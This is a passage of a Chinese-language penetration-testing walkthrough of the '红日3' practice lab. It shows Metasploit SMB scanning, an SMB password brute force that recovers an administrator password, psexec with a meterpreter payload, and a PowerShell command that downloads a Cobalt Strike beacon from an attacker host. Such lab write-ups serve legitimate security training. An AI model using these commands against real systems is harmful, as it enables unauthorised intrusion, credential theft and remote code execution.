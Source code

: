 根据搭建环境还有一台没扫出来，由于都是windows主机，利用ms的smb_version模块去扫描445端口

```
use auxiliary/scanner/smb/smb_version
```

扫描发现三台主机都开放了445端口，可以利用永恒之蓝尝试在这些主机上执行命令，试了三个模块，都无法直接上线，也无法执行命令，利用代理重新扫描端口信息，

192.168.93.10

![17](E:\笔记软件\笔记\渗透测试\靶机练习\红日3\17.png)

192.168.93.20

![18](E:\笔记软件\笔记\渗透测试\靶机练习\红日3\18.png)

30

![19](E:\笔记软件\笔记\渗透测试\靶机练习\红日3\19.png)

能够知道的是都开启了445端口，并且10主机开放了88端口

### SMB爆破

使用msf中的smb模块

```
use auxiliary/scanner/smb/smb_login
set rhosts 192.168.93.20
set SMBUser Administrator
set PASS_FILE /tmp/top10000.txt
```

![20](E:\笔记软件\笔记\渗透测试\靶机练习\红日3\20.png)

成功拿到密码123qwe!ASD,这个密码在20,30主机上都能够使用，利用msf的模块去拿20，30主机的shell

```
use exploit/windows/smb/psexec
set payload windows/meterpreter/bind_tcp
set rhosts 192.168.93.20
set smbuser administrator
set smbpass 123qwe!ASD
run
```

![21](E:\笔记软件\笔记\渗透测试\靶机练习\红日3\21.png)

尝试将shell发送回cs,无论是直接反弹，还是上传后门并执行都没法上线cs

```
powershell (new-object Net.WebClient).DownloadFile('http://192.168.93.100:8000/beacon.exe','C:\beacon.exe')
```

打算直接在msf上操作了，在win2008中寻找域控

```
nslookup -type=SRV _ldap._tcp
```
